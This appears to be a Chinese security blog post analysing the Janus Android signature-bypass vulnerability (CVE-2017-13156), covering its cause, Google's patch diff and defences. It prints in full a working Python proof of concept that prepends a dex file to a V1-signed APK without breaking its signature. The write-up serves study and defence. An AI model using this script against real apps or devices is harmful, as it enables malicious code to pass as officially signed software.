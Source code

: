 ```yaml
---
title: Janus签名漏洞(CVE-2017-13156)原理与利用分析
date: 2018-10-05 09:49:25
tags: Android漏洞
categories: 漏洞分析
---
```


## 0x00 简介
前言:去年比较严重的洞,以比较浅显的方式学习记录一下，网上有很多其他深度分析文章，也可借鉴学习。

Janus签名漏洞可以让攻击者绕过安卓系统的signature scheme V1签名机制，进而直接对App进行篡改。而且由于安卓系统的其他安全机制也是建立在签名和校验基础之上，该漏洞相当于绕过了安卓系统的整个安全机制。

* 公告详情: 
![https://source.android.com/security/bulletin/2017-12-01]()
* 影响: 利用该漏洞的攻击者可注入恶意代码直接修改app而不影响其原始签名,即修改后仍是官方签名
* 影响范围: Android 5.0-8.0且使用Signaturescheme V1签名的APK文件,不影响Signaturescheme V2
* 自测: adb shell dumpsys package pkgName | grep apkSigningVersion

<!-- more -->


## 0x01 漏洞原理
1. Android在4.4引入ART虚拟机，相比较于Dalvik虚拟机仅能运行包装于apk中的dex文件，ART还允许直接运行优化后的dex文件。具体操作是通过读取**文件头部**的magic字段进行判断，区别执行apk或者dex。

1. ZIP文件的读取方式是读取**文件末尾**定位的central directory, 然后通过里面的索引定位到各个zip entry，每个entry解压之后都对应一个文件。ParseZipArchive()函数在进行以上处理时候并没有判断文件头部的magic字段是否为504B0304(即Zip).

![图片来自阿里聚安全](https://epo.alicdn.com/image/46c2mtm4lfj0.png)


因此根据以上两点,攻击者可以通过将恶意dex文件置于apk文件的头部(如上图所示),在系统安装apk文件时，系统安装器解压zip时并没有先判断apk文件的头部magic字段，直接默认是apk(zip)文件，从而直接从文件尾部进行读取解压，此时签名没有任何变化，因此可欺骗系统，从而进行安装。

攻击关键点是当用户点击运行apk时，系统ART虚拟机会去判断文件头部的magic字段，从而使用不同的策略执行文件，由于该apk文件头部被修改为恶意dex，因此art虚拟机直接执行恶意dex文件。

## 0x02 漏洞利用
漏洞利用[PoC](https://github.com/V-E-O/PoC/blob/master/CVE-2017-13156/janus.py):

``` python
#!/usr/bin/python

import sys
import struct
import hashlib
from zlib import adler32

def update_checksum(data):
    '''
    生成sha1 hash 
    "<L" 小端存储unsigned long
    '''
    m = hashlib.sha1()
    m.update(data[32:])
    data[12:12+20] = m.digest()
	
	#计算Adler-32 checksum
    v = adler32(buffer(data[12:])) & 0xffffffff 
    data[8:12] = struct.pack("<L", v)

def main():
    if len(sys.argv) != 4:
        print("usage: %s dex apk out_apk" % __file__)
        return

    _, dex, apk, out_apk = sys.argv

    #读取dex二进制数据
    with open(dex, 'rb') as f:
        dex_data = bytearray(f.read())
    dex_size = len(dex_data)

    #操作zip文件,可学习一下zip文件格式
    with open(apk, 'rb') as f:
        apk_data = bytearray(f.read())
    cd_end_addr = apk_data.rfind('\x50\x4b\x05\x06') 
    
    #central directory 起始地址
    cd_start_addr = struct.unpack("<L", apk_data[cd_end_addr+16:cd_end_addr+20])[0]
    apk_data[cd_end_addr+16:cd_end_addr+20] = struct.pack("<L", cd_start_addr+dex_size)

    pos = cd_start_addr
    while (pos < cd_end_addr):
        offset = struct.unpack("<L", apk_data[pos+42:pos+46])[0]
        apk_data[pos+42:pos+46] = struct.pack("<L", offset+dex_size)
        pos = apk_data.find("\x50\x4b\x01\x02", pos+46, cd_end_addr)
        if pos == -1:
            break

    #注入dex_data
    out_data = dex_data + apk_data
    out_data[32:36] = struct.pack("<L", len(out_data))
    update_checksum(out_data)

    with open(out_apk, "wb") as f:
        f.write(out_data)

    print ('%s generated' % out_apk)


if __name__ == '__main__':
    main()
```

##0x03 漏洞防御
谷歌官方修复[diff](https://android.googlesource.com/platform/system/core/+/9dced1626219d47c75a9d37156ed7baeef8f6403%5E%21/#F0):

``` c++
diff --git a/libziparchive/zip_archive.cc b/libziparchive/zip_archive.cc
index 78de40a..d0bbd72 100644
--- a/libziparchive/zip_archive.cc
+++ b/libziparchive/zip_archive.cc

@@ -441,6 +441,22 @@
       return -1;
     }
   }
+
+  uint32_t lfh_start_bytes;
+  //读取zip头部信息
+  if (!archive->mapped_zip.ReadAtOffset(reinterpret_cast<uint8_t*>(&lfh_start_bytes),
+                                        sizeof(uint32_t), 0)) {
+    ALOGW("Zip: Unable to read header for entry at offset == 0.");
+    return -1;
+  }
+
   //增加kSignature头部验证，不同时返回-1
+  if (lfh_start_bytes != LocalFileHeader::kSignature) {
+    ALOGW("Zip: Entry at offset zero has invalid LFH signature %" PRIx32, lfh_start_bytes);
+  #if defined(__ANDROID__)
+    android_errorWriteLog(0x534e4554, "64211847");
+  #endif
+    return -1;
+  }
+
   ALOGV("+++ zip good scan %" PRIu16 " entries", num_entries);
 
   return 0;

```
在解压zip文件时,调用函数ReadAtOffset()读取offset=0的magic字段是否为[LocalFileHeader::kSignature](https://android.googlesource.com/platform/system/core/+/9dced1626219d47c75a9d37156ed7baeef8f6403/libziparchive/zip_archive_common.h)(即0x04034b50)

防御:

* 使用Signaturescheme V2签名
* 前往官方网站下载正版应用或到阿里PP助手下载安全应用

## 0x04 参考
[New Android vulnerability allows attackers to modify apps without affecting their signatures](https://www.guardsquare.com/en/blog/new-android-vulnerability-allows-attackers-modify-apps-without-affecting-their-signatures)

[Janus漏洞（CVE-2017-13156）: 修改安卓app而不影响签名](https://jaq.alibaba.com/community/art/show?articleid=1261)

[安卓“Janus”漏洞的产生原理及利用过程](http://www.freebuf.com/articles/terminal/156862.html)

[ZIP文件格式分析](http://blog.csdn.net/a200710716/article/details/51644421)

